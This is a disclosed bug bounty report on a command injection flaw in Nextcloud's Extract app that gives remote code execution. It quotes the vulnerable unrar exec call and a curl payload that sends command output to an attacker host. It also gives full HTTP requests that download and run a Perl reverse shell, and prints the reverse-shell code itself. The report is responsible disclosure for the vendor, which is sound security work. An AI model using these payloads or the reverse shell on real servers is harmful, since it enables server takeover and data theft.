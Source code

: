 # Remote Code Execution via Extract App Plugin

## Report Details
- **Report ID**: 546753
- **URL**: https://hackerone.com/reports/546753
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-23T09:09:35.695Z
- **Disclosed**: 2019-05-30T07:17:04.686Z

## Reporter
- **Username**: hdbreaker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi, I found a critical issue in the Add-on "Extract" listed in the Nextcloud Marketplace: https://apps.nextcloud.com/apps/extract (This extension can be installed directly from Nextcloud Application)

The vulnerability was found in file: extract/lib/Controller/ExtractionController.php line 102.

The affected code can be seen below:

```
if (extension_loaded ("rar")){
				$rar_file = rar_open($file);
				$list = rar_list($rar_file);
				var_dump($rar_file);
				foreach($list as $fileOpen) {
					$entry = rar_entry_get($rar_file, $fileOpen->getName());
					$entry->extract($dir); // extract to the current dir
					self::scanFolder('/'.$this->UserId.'/files'.$directory.'/'.$fileOpen->getName());
				}
				rar_close($rar_file); 
			}else{
                ######## BUG HERE #########
				exec("unrar x \"".$file."\" -R \"".$dir."\" -o+",$output,$return);
                #########################
				foreach ($output as $val ) {
					if(preg_split('/ /', $val, -1, PREG_SPLIT_NO_EMPTY)[0] == "Extracting" && 
					preg_split('/ /', $val, -1, PREG_SPLIT_NO_EMPTY)[1] != "from"){
						$fichier = substr(strrchr($PATH, "/"), 1);
						self::scanFolder('/'.$this->UserId.'/files'.$directory.'/'.$fichier);
					}
				}
			}
```

The unrar line allows Command Injection via $file and $dir parameters, an attacker could use the following payload in order to exploit a Remote Command Execution in a Nextcloud Server and exfiltrate data via Curl requests.

```
nameOfFile=sample.rar"|curl www.attacker.com:443/data?id=$(id | base64)|"&directory=&external=0
```

Abusing this issue I was able to take full control of the demo instance: https://demo.nextcloud.com/lun0shai/

The steps to reproduce this PoC can be seen below:

1) Create a demo instance in https://demo.nextcloud.com and login.
2) Install the plugin Extract directly from the Apps menu:

{F474350}

3) Once the Add-on is installed, the attacker needs to upload a sample.rar file:

{F474351}

4) Then, the attacker needs to use the functionality "Extract Here" from the context menu and intercept the HTTP Request with BurpSuite:

{F474352}

Burp Interceptor:
{F474356}

5) At this point, the attacker can manipulate the $nameOfFile and & $dir parameters to achieve Remote Code Execution in the Nextcloud Instance. This PoC of RCE was performed over a Demo Instance running the latest version of NextClou.

To achieve RCE over Demo Instance 2 payloads were needed:

a) The attacker needs to force the application to download a Perl Reverse Shell to /tmp folder using curl, this was achieved using the following HTTP Request:

Note: 
My server IP is: 138.68.1.244

HTTP Request:
```
POST /lun0shai/index.php/apps/extract/ajax/extractRar.php HTTP/1.1
Host: demo.nextcloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
requesttoken: v+/28PW5/gilVA9we7iR7yrAYLjQCiYpfyx4e+jIdPU=:24ODl5qN0WLLN14xF+vgrEC0EM/ifB55OxU1SIe+LcE=
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 98
Connection: close
Cookie: oco9fwvj7vid=aashsh75p508m9qk0tdq0ahk8v; oc_sessionPassphrase=XmIYyFzOLH1JtcvmdyZ6JbO67Sh1lbdC6UlHe0FkyVXeu5e2gA%2FOloJaUrRkXAb8sDLgF2pQYpUh1NlHeS8rpppQZakBiTH3K9%2FwWAytej%2FCTkV9%2FurYyRaMVQWLbAyu; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; nc_username=admin; nc_token=eGciTpRb4Bu7DpG2ohUjUWhAd%2BjQGRbb; nc_session_id=aashsh75p508m9qk0tdq0ahk8v

nameOfFile=sample.rar"|curl http://138.68.1.244/shell.pl -o /tmp/shell2.pl|"&directory=&external=0
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Tue, 23 Apr 2019 08:24:50 GMT
Server: Apache
Strict-Transport-Security: max-age=15768000
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';script-src 'nonce-bXBVNko3dWtWZnFVMzl3QnpTMHBlSkwvYlhhSWtLczZXelhlTFRkMGNJdz06L3ZsUFFOU1FlcEQ2dkkxQW9YNVlPL2lMSFFHNjVwTnFId3lUSGxnQ0tiZz0=';style-src 'self' 'unsafe-inline';img-src 'self' data: blob:;font-src 'self' data:;connect-src 'self' stun.nextcloud.com:443;media-src 'self';frame-src https://demo.nextcloud.com
X-Frame-Options: SAMEORIGIN
Content-Length: 4
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: no-referrer
Content-Type: application/json; charset=utf-8
Connection: close

null
```

The above request wrote the following reverse shell in /tmp/shell.pl
```
use Socket;$i="138.68.1.244";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");}
```

(At this point a Netcat Listener was running on my Server)
{F474360}

b) A second HTTP Request was needed to execute the Perl Reverse Shell and gain full shell access over the remote server (demo.nextcloud.com):

HTTP Request:
```
POST /lun0shai/index.php/apps/extract/ajax/extractRar.php HTTP/1.1
Host: demo.nextcloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
requesttoken: v+/28PW5/gilVA9we7iR7yrAYLjQCiYpfyx4e+jIdPU=:24ODl5qN0WLLN14xF+vgrEC0EM/ifB55OxU1SIe+LcE=
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 66
Connection: close
Cookie: oco9fwvj7vid=aashsh75p508m9qk0tdq0ahk8v; oc_sessionPassphrase=XmIYyFzOLH1JtcvmdyZ6JbO67Sh1lbdC6UlHe0FkyVXeu5e2gA%2FOloJaUrRkXAb8sDLgF2pQYpUh1NlHeS8rpppQZakBiTH3K9%2FwWAytej%2FCTkV9%2FurYyRaMVQWLbAyu; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; nc_username=admin; nc_token=eGciTpRb4Bu7DpG2ohUjUWhAd%2BjQGRbb; nc_session_id=aashsh75p508m9qk0tdq0ahk8v

nameOfFile=sample.rar"|perl /tmp/shell2.pl|"&directory=&external=0
```

After these steps, my Server (IP: 138.68.1.244) received the Reverse Shell successfully and I was able to move freely over the Docker Instance of Nextcloud, reading even the config file as can be seen below:

An inbound connection from demo.nextcloud.com was received
{F474361}

Content of /config/config.php
{F474362}

Hope this could help to improve your security and check continuously the Applications that you spread using your market.

Please do not hesitate to contact me if you need any help to detect/resolve this issue.

Regards,

## Impact

An authenticated user could use the Extract Plugin listed in the Apps Market of Nextcloud to achieve Remote Code Execution in any Nextcloud instance.

## Attachments
- Screen_Shot_2019-04-23_at_5.41.35_AM.png
- Screen_Shot_2019-04-23_at_5.43.18_AM.png
- Screen_Shot_2019-04-23_at_5.43.39_AM.png
- Screen_Shot_2019-04-23_at_5.47.40_AM.png
- Screen_Shot_2019-04-23_at_5.51.48_AM.png
- Screen_Shot_2019-04-23_at_5.54.31_AM.png
- Screen_Shot_2019-04-23_at_5.55.31_AM.png
